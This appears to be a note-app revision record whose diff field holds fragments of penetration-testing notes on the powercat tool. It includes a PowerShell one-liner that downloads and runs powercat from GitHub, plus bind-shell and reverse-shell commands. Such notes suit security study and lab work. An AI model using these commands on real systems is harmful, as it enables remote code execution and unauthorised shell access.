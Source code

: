 id: c0d4f37759074351b60a4fcaca39923b
parent_id: 4d4663ca827d47059069c350258dbc97
item_type: 1
item_id: 1f45fe001a5c493683ce3e44ef34f4b2
item_updated_time: 1642662200797
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"s>\\\n\\\n\"],[-1,\"> ..\\\\\\\\powercat.ps1\"],[1,\"\\\\*\\\\*Script is available at \\\\*\\\\*/usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1\\\n\\\n> ..\\\\\\\\powercat.ps1\\\n\\\nIf the target machine has internet, can load directly from the internet\\\n\\\n> IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')\\\n\\\n# Commands\"],[0,\"\\\n\\\nBi\"]],\"start1\":47,\"start2\":47,\"length1\":26,\"length2\":362},{\"diffs\":[[0,\"nds\\\n\\\nBind shell:\"],[1,\"\\\n\\\n>\"],[0,\" powercat -l -p \"]],\"start1\":402,\"start2\":402,\"length1\":32,\"length2\":35},{\"diffs\":[[0,\"\\\n\\\nReverse shell:\"],[1,\"\\\n\\\n>\"],[0,\" powercat -c $IP\"]],\"start1\":453,\"start2\":453,\"length1\":32,\"length2\":35},{\"diffs\":[[0,\"mitation\"],[-1,\"\\\n\\\n\"],[1,\"; make sure alternate between powershell and cmd for commands\\\n\\\n> \"],[0,\"PowerShe\"]],\"start1\":964,\"start2\":964,\"length1\":18,\"length2\":81}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-20T07:03:34.567Z
created_time: 2022-01-20T07:03:34.567Z
type_: 13